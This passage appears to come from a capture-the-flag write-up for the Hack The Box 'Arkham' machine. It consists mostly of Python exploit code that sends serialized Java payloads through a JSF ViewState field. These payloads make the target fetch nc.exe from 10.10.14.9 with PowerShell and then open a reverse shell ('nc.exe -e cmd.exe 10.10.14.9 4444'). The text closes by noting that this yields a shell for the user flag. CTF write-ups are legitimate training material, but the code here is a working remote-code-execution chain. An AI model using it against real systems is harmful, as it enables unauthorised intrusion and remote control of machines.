 ```python
    os.system(final_cmd)

def download_nc():
    get_cereal("cmd.exe /c powershell -c wget 10.10.14.9/nc.exe -Outfile C:/Windows/Tasks/nc.exe")

    with open("cereal", "rb") as f:
        unencrypted_payload = f.read()
        f.close()
    payload = build_payload(unencrypted_payload, key)
    
    data = {
        "j_id_jsp_1623871077_1%253Aemail": "t",
        "j_id_jsp_1623871077_1%253Asubmit": "SIGN+UP",
        "j_id_jsp_1623871077_1_SUBMIT": "1",
        "javax.faces.ViewState": payload
    }
    r = requests.post(url, data=data, verify=False, proxies=proxies)

def trigger_nc():
    get_cereal("cmd.exe /c C:/Windows/Tasks/nc.exe -e cmd.exe 10.10.14.9 4444")
    with open("cereal", "rb") as f:
        unencrypted_payload = f.read()
        f.close()
    payload = build_payload(unencrypted_payload, key)
    data = {
        "j_id_jsp_1623871077_1%3Aemail": "t",
        "j_id_jsp_1623871077_1%3Asubmit": "SIGN UP",
        "j_id_jsp_1623871077_1_SUBMIT": "1",
        "javax.faces.ViewState": payload
    }
    r = requests.post(url, data=data, verify=False, proxies=proxies)

download_nc()
trigger_nc()
```

This gives me a shell to grab the user flag.

![](../../../.gitbook/assets/htb-arkham-image-7.png)
